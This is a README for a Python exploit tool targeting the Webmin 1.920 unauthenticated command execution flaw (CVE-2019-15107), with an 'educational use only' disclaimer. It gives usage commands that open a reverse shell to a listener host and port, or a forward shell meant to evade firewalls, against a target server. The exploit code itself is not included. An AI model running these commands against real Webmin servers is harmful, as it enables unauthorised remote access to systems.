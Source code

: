 # Project Title

CVE-2019-15107 Webmin 1.920 Unauhenticated Remote Command Execution

## Description

A python3 script for the CVE-2019-15107 Webmin 1.920 Unauhenticated Remote Command Execution that <br> 
creates a reverse shell or a pseudo interactive shell using mkfifo for firewall evasion

## Getting Started

### Executing program

* With python3
```
python3 webmin.py -t https://webmin.site/ -lhost 127.0.0.1 -lport 9001
```
* For forward shell firewall evasion
```
python3 webmin.py -t https://webmin.site/ -fs
```

## Help

For help menu:
```
python3 webmin.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.
